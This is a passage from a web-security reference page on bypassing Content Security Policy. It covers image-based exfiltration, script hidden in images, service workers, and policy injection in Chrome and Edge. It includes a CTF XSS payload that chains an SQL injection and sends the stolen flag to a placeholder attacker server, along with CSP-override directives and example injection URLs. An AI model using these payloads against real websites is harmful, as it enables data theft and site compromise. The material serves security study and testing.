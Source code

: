 ```

```
default-src 'self' 'unsafe-inline'; img-src *;
```
```
`'unsafe-inline'` means that you can execute any script inside the code (XSS can execute code) and `img-src *` means that you can use in the webpage any image from any resource.

You can bypass this CSP by exfiltrating the data via images (in this occasion the XSS abuses a CSRF where a page accessible by the bot contains an SQLi, and extract the flag via an image):

```javascript
<script>
  fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new
  Image().src='http://PLAYER_SERVER/?'+_)
</script>
```
```
From: [[https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle|https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle]]

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows loading images from Twitter. You could **craft** an **special image**, **upload** it to Twitter and abuse the "**unsafe-inline**" to **execute** a JS code (as a regular XSS) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [[https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/|https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/]]

### With Service Workers

Service workers **`importScripts`** function isn't limited by CSP:

[[../xss-cross-site-scripting/abusing-service-workers.md]]

### Policy Injection

**Research:** [[https://portswigger.net/research/bypassing-csp-with-policy-injection|**https://portswigger.net/research/bypassing-csp-with-policy-injection**]]

#### Chrome

If a **parameter** sent by you is being **pasted inside** the **declaration** of the **policy,** then you could **alter** the **policy** in some way that makes **it useless**. You could **allow script 'unsafe-inline'** with any of these bypasses:

```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```
```
Because this directive will **overwrite existing script-src directives**.\
You can find an example here: [[http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E|http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E]]

#### Edge

In Edge is much simpler. If you can add in the CSP just this: **`;_`** **Edge** would **drop** the entire **policy**.\
Example: [[<http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;_&y=%3Cscript%3Ealert(1)%3C/script%3E>|http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E]]

```